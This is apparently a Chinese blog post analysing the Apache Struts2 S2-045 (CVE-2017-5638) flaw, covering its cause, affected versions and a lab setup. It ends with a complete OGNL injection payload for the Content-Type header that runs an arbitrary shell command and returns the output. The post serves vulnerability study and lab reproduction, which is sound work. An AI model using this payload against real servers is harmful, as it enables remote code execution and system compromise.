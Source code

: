 ```yaml
---
layout: post
title: "S2-045"
subtitle: 'S2-045漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第十二篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> S2-045漏洞,又名CVE-2017-5638漏洞

> Struts2默认使用org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest 类对上传数据进行解析.JakartaMultiPartRequest类在处理Content-Type时如果获得非预期的值的话,将会抛出一个异常,对这个异常的处理会对错误信息进行OGNL表达式解析,从而造成了恶意代码执行.


> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-045)

#### 漏洞成因

> Struts2默认使用org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest 类对上传数据进行解析.JakartaMultiPartRequest类在处理Content-Type时如果获得非预期的值的话,将会抛出一个异常,对这个异常的处理会对错误信息进行OGNL表达式解析,从而造成了恶意代码执行.

#### 漏洞影响范围

> Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
%{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
